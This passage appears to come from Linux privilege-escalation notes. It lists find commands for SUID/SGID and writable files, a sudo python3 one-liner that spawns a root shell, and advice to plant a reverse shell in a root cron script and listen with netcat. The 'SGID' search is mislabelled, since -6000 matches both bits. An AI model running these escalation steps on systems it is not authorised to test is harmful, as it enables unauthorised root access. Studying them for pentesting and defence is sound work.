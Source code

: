Mounted or unmounted drives may contain backups or credentials. Use `lsblk` and `mount` to inspect available drives and mountpoints.

### SUID and SGID Permissions

Files with the SUID (setuid) bit run with the file owner's permissions (often root). These binaries can be abused if they allow launching shells or executing commands with insufficient validation.

Find SUID files:

```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Find SGID files:

```
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### Finding Writable Directories and Files

Writable directories (e.g., `/tmp`, `/var/tmp`, or custom app directories) and writable scripts or config files used by root processes are useful to find:

```
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

### Abusing Sudo Privileges

When `sudo -l` shows a binary the user can run as root, consider whether that binary allows executing commands. For example, if `python3` is allowed with NOPASSWD, you can escalate with:

```
python3 -c 'import os; os.system("/bin/bash")'
```

### SUID - Special Permissions

The SUID bit appears as an `s` in file permissions. Reverse-engineering or leveraging SUID binaries can lead to privilege escalation.

Example SUID search output:

```
-rwsr-xr-x 1 root root 302904 Mar 14 02:38 /opt/BurpSuiteCommunity/burpbrowser/122.0.6261.111/chrome-sandbox
... 
```

Use GTFOBins (https://gtfobins.github.io) to find abuse cases for common binaries.

## Cron Job Exploitation Example

If a root cron job runs a writable script, edit it to add a reverse shell and listen with `nc -lvp` to receive a root shell when the job executes.
